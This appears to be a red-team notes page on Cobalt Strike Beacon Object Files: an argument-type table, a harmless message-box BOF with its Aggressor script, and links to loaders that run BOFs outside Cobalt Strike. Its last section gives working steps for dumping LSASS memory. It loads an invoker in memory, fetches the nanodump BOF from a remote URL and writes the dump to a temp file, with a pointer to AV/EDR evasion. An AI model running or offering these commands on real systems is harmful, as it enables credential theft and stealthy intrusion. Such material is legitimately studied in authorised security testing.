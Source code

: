```yaml
---
description: Beacon Object Files / Common Object File Format
---
```


# BOF / COFF

Argument types for [bof_pack](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#bof_pack):

| **Type** | **Description**                  | **Unpack With (C)**          |
|----------|----------------------------------|------------------------------|
| b        | binary data                      | BeaconDataExtract            |
| i        | 4-byte integer                   | BeaconDataInt                |
| s        | 2-byte short integer             | BeaconDataShort              |
| z        | zero-terminated+encoded string   | BeaconDataExtract            |
| Z        | zero-terminated wide-char string | (wchar_t \*)BeaconDataExtract |

Basic BOF example:

{% tabs %}
{% tab title="BOF" %}
{% code title="msgbox.c" %}
```c
// wget https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/beacon.h
// x86_64-w64-mingw32-gcc -c msgbox.c -o msgbox.o

#include <windows.h>
#include "beacon.h"

void go(char* args, int len)
{
    DECLSPEC_IMPORT INT WINAPI USER32$MessageBoxA(HWND, LPCSTR, LPCSTR, UINT);

    datap parser;
    BeaconDataParse(&parser, args, len);

    char* message;
    message = BeaconDataExtract(&parser, NULL);

    USER32$MessageBoxA(NULL, message, "Hello from BOF!", 0);
}
```
{% endcode %}
{% endtab %}
{% tab title="Aggressor" %}
{% code title="teamserver.yml" %}
```
alias msgbox {
    local('$handle $bof $args');
    
    # Read the bof file
    $handle = openf(script_resource("msgbox.o"));
    $bof = readb($handle, -1);
    closef($handle);

    # Pack args
    $args = bof_pack($1, "z", $2);
    
    # Print task to console
    btask($1, "Running MessageBoxA BOF");
    
    # Execute BOF
    beacon_inline_execute($1, $bof, "go", $args);
}

beacon_command_register("msgbox", "Pops a message box", "Calls the MessageBoxA Win32 API");
```
{% endcode %}
{% endtab %}
{% endtabs %}


## Running BOFs outside of CS

- [https://www.trustedsec.com/blog/coffloader-building-your-own-in-memory-loader-or-how-to-run-bofs/](https://www.trustedsec.com/blog/coffloader-building-your-own-in-memory-loader-or-how-to-run-bofs/)
- [https://github.com/trustedsec/COFFLoader](https://github.com/trustedsec/COFFLoader)
- [https://skyblue.team/posts/invoke-bof/](https://skyblue.team/posts/invoke-bof/)
- [https://github.com/airbus-cert/Invoke-Bof](https://github.com/airbus-cert/Invoke-Bof)



### RunOF

- [https://labs.nettitude.com/blog/introducing-runof-arbitrary-bof-tool/](https://labs.nettitude.com/blog/introducing-runof-arbitrary-bof-tool/)
- [https://github.com/nettitude/RunOF](https://github.com/nettitude/RunOF)

An example of running the [nanodump.x64.o](https://github.com/helpsystems/nanodump/blob/main/dist/nanodump.x64.o) BOF via RunOF [fork](https://github.com/snovvcrash/RunOF) from memory:

1. Compile RunOF.exe assembly and convert it to a PowerShell invoker (see [.NET Reflective Assembly](/pentest/infrastructure/ad/av-edr-evasion/dotnet-reflective-assembly.md)).
2. Search for argument types that the target BOF uses (usually located in accompanying Aggressor scripts):

```
curl -sSL 'https://github.com/helpsystems/nanodump/raw/main/'`curl -sSL 'https://api.github.com/repos/helpsystems/nanodump/git/trees/main?recursive=1' | jq -r '.tree[] | select(.path | endswith(".cna")) | .path'` | grep bof_pack
    $args = bof_pack($1, "iziiiiiiiziiz", $pid, $dump_path, $write_file, $use_valid_sig, $fork, $snapshot, $dup, $get_pid, $use_malseclogon, $binary_path, $use_malseclogon_race, $use_werfault, $werfault_lsass);
    $args = bof_pack($1, "ziiiiizb", $dump_path, $use_valid_sig, $fork, $snapshot, $dup, $use_malseclogon, $binary_path, $dll);
    $args = bof_pack($1, "z", $ssp_path);
    $args = bof_pack($1, "z", $2);
```

3. Load the invoker into memory, fetch the BOF (`-u` option) and run it providing necessary arguments with their types like this:

```
PS > . .\Invoke-RunOF.ps1
PS > Invoke-RunOF -u https://github.com/helpsystems/nanodump/raw/main/dist/nanodump.x64.o '-i:0' '-z:C:\Windows\Temp\lsass.bin' '-i:1' '-i:1' '-i:0' '-i:0' '-i:0' '-i:0' '-i:0' '-z:' '-i:0' '-z:'
```
